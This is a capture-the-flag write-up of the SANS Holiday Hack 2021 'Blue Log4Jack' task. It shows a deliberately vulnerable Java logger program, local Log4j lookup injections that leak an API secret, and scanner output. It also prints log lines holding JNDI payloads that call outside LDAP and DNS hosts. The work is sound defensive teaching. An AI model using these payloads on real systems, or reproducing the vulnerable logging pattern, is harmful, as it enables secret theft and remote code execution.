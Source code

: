 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 14. Bonus! Blue Log4Jack
The objective is to demonstrate, patch and provide advice on the recent Log4Jack vulnerability.

### 14.0. Hints
**Log4j Talk** - *Bow Ninecandle*: “Prof. Qwerty Petabyte is giving [a lesson](https://youtu.be/OuYMPU3-0p4) about Apache Log4j.”  
**Log4j Search Script** - *Bow Ninecandle*: “Josh Wright's [simple checker script](https://gist.github.com/joswr1ght/a6badf9b0b148efadfccbf967fcc2b41) uses the power of regex to find vulnerable Log4j libraries!”  
**Log4j Remediation** - *Bow Ninecandle*: “[Clearing Log4j issues](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/) from systems.”  
**Log4J at Apache** - *Bow Ninecandle*: “Software by the [Apache Foundation](https://logging.apache.org/log4j/2.x/manual/lookups.html) runs on devices all over the internet”  

#### 14.1. Solution
The shell walks through the compilation and exploiting of the vulnerable `DisplayFilev2` java program:
```java
import java.io.*;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class DisplayFilev2 {
    static Logger logger = LogManager.getLogger(DisplayFilev2.class);
    public static void main(String[] args) throws Exception {
        String st;
        try {
            File file = new File(args[0]);
            BufferedReader br = new BufferedReader(new FileReader(file));

            while ((st = br.readLine()) != null)
                System.out.println(st);
        }
        catch (Exception e) {
            logger.error("Unable to read file " + args[0] + " (make sure you specify a valid file name).");
        }
    }
}
```

Below a local exploitation of the vulnerability:
```bash
elfu@33580ab650ea:~/vulnerable$ java DisplayFilev2 '${java:version}'
12:27:14.110 [main] ERROR DisplayFilev2 - Unable to read file Java version 1.8.0_312 (make sure you specify a valid file name).
elfu@33580ab650ea:~/vulnerable$ java DisplayFilev2 '${env:APISECRET}'
12:27:44.523 [main] ERROR DisplayFilev2 - Unable to read file pOFZFiWHjqKoQaRhNYyC (make sure you specify a valid file name).
```

The shell then uses `log4j-scan` to identify vulnerable java applications:
```bash
elfu@33580ab650ea:~/vulnerable$ log4j2-scan /var/www/solr/
Logpresso CVE-2021-44228 Vulnerability Scanner 2.2.0 (2021-12-18)
Scanning directory: /var/www/solr/ (without tmpfs, shm)
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /var/www/solr/server/lib/ext/log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /var/www/solr/contrib/prometheus-exporter/lib/log4j-core-2.14.1.jar, log4j 2.14.1

Scanned 102 directories and 1988 files
Found 2 vulnerable files
Found 0 potentially vulnerable files
Found 0 mitigated files
Completed in 0.34 seconds
```

Also it uses the script `logshell-search` to observe IOCs in `/var/log/www` logs:
```bash
elfu@33580ab650ea:~/vulnerable$ logshell-search.sh /var/log/www/
/var/log/www/access.log:10.26.4.27 - - [14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"
```

---
## 15. [Bonus! Red Log4Jack](/15.%20Bonus!%20Red%20Log4Jack/README.md)
## 16. [That’s how Jack came from space](/README.md#16-thats-how-jack-came-from-space)
## 17. [Narrative](/README.md#17-narrative)
## 18. [Conclusions](/README.md#18-conclusions)
---
## 0. [windovo\\thedead> whoami](/README.md)
## 1. [KringleCon Orientation](/01.%20KringleCon%20Orientation/README.md)
## 2. [Where in the World is Caramel Santiaigo?](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/README.md)
### 2.1. [Side Challenge - Exif Metadata](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/02.01.%20Side%20Challenge%20-%20Exif%20Metadata/README.md)
## 3. [Thaw Frost Tower's Entrance](/03.%20Thaw%20Frost%20Tower's%20Entrance/README.md)
### 3.1. [Side Challenge - Grepping for Gold](/03.%20Thaw%20Frost%20Tower's%20Entrance/03.01.%20Grepping%20for%20Gold/README.md)
## 4. [Slot Machine Investigation](/04.%20Slot%20Machine%20Investigation/README.md)
### 4.1. [Side Challenge - Logic Munchers](/04.%20Slot%20Machine%20Investigation/04.01.%20Side%20Challenge%20-%20Logic%20Munchers/README.md)
## 5. [Strange USB Device](/05.%20Strange%20USB%20Device/README.md)
### 5.1. [Side Challenge - IPv6 Sandbox](/05.%20Strange%20USB%20Device/05.01.%20Side%20Challenge%20-%20IPv6%20Sandbox/README.md)
## 6. [Shellcode Primer](/06.%20Shellcode%20Primer/README.md)
### 6.1. [Side Challenge - Holiday Hero](/06.%20Shellcode%20Primer/06.01.%20Side%20Challenge%20-%20Holiday%20Hero/README.md)
## 7. [Printer Exploitation](/07.%20Printer%20Exploitation/README.md)
## 8. [Kerberoasting on an Open Fire](/08.%20Kerberoasting%20on%20an%20Open%20Fire/README.md)
### 8.1. [Side Challenge - HoHo … No](/08.%20Kerberoasting%20on%20an%20Open%20Fire/08.01.%20Side%20Challenge%20-%20HoHo%20…%20No/README.md)
## 9. [Splunk!](/09.%20Splunk!/README.md)
### 9.1. [Side Challenge - Yara Analysis](/09.%20Splunk!/09.01.%20Yara%20Analisys/README.md)
## 10. [Now Hiring!](/10.%20Now%20Hiring!/README.md)
### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)
## 11. [Customer Complaint Analysis](/11.%20Customer%20Complaint%20Analysis/README.md)
### 11.1. [Side Challenge - Strace Ltrace Retrace](/11.%20Customer%20Complaint%20Analysis/11.01%20Side%20Challenge%20-%20Strace%20Ltrace%20Retrace/README.md)
## 12. [Frost Tower Website Checkup](/12.%20Frost%20Tower%20Website%20Checkup/README.md)
### 12.1. [Side Challenge - The Elf C0de Python Edition](/12.%20Frost%20Tower%20Website%20Checkup/12.01.%20Side%20Challenge%20-%20The%20Elf%20C0de%20Python%20Edition/README.md)
## 13. [FPGA Programming](/13.%20FPGA%20Programming/README.md)
### 13.1. [Side Challenge - Frostavator](/13.%20FPGA%20Programming/13.01.%20Side%20Challenge%20-%20Frostavator/README.md)